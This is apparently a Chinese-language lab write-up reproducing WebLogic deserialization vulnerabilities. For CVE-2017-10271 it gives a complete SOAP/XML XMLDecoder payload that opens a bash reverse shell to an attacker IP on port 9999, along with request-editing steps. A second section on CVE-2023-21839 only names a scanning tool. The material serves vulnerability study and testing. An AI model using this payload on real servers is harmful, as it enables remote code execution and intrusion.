

# weblogic反序列化

> CVE-2017-10271	

### 环境准备

- 靶场ip:`192.168.2.254:7001`
- 攻击机ip:`192.168.230.240`


### 漏洞复现



- 访问url`http://192.168.2.254:7001/wls-wsat/CoordinatorPortType`


- 使用`burp`进行抓包,修改请求方法,构造poc(`需要修改为自己的攻击机ip`)

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.230.240/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

- 修改为`post`请求,`content-type`修改为`text/xml`


- 使用攻击机监听`9999`端口,然后发送数据包


### 漏洞原理

- `Weblogic Server WLS`组件远程命令执行漏洞,主要是由`wls-wsat.war`触发,通过构造`xml格式`的请求,在解析过程中导致`XMLDecodeer`反序列化漏洞

****

# weblogic

> CVE-2023-21839

### 环境准备


### 攻击手法

- 因为大致攻击流程都是和上面类似,这个就用工具进行攻击
- 工具是`onefox工具箱`中的`weblogic`漏洞检测工具


- 执行命令


****